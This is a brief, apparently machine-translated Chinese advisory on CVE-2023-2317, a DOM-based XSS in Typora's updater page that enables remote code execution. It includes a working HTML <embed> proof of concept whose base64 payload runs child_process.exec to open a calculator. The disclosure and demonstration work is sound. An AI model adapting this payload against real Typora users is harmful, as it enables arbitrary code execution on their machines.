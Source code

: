 
# 基于Typora DOM的跨站点脚本导致远程代码执行（CVE-2023-2317）

## 漏洞简介

Windows和Linux版本1.6.7之前的Typora中updater/update.html中基于DOM的XSS允许特制的markdown文件通过加载在Typora主窗口的上下文中运行任意JavaScript代码`typora://app/typemark/updater/update.html`在＜embed＞标记中。如果用户在Typora中打开恶意降价文件，或者从恶意网页复制文本并将其粘贴到Typora，则可以利用此漏洞。

```html
<embed src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ'))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]"></embed>
```

